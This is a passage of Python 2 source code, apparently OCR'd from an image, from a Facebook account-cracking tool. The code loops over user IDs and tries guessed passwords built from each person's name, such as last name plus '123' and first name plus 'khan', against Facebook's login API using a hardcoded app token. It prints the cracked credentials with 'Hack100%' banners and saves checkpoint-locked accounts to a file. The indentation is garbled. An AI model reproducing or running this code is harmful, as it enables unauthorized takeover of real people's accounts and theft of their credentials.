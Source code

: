 				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'								
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']									
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user							
						       print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                           print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['first_name'] + 'khan'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user											
				                                   print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                       print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = '786786'							
						                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								
						                       q = json.load(data)								
						                       if 'access_token' in q:	
						                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                               z = json.loads(x.text)
						                               print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'						
						                               print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']							
						                               print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user					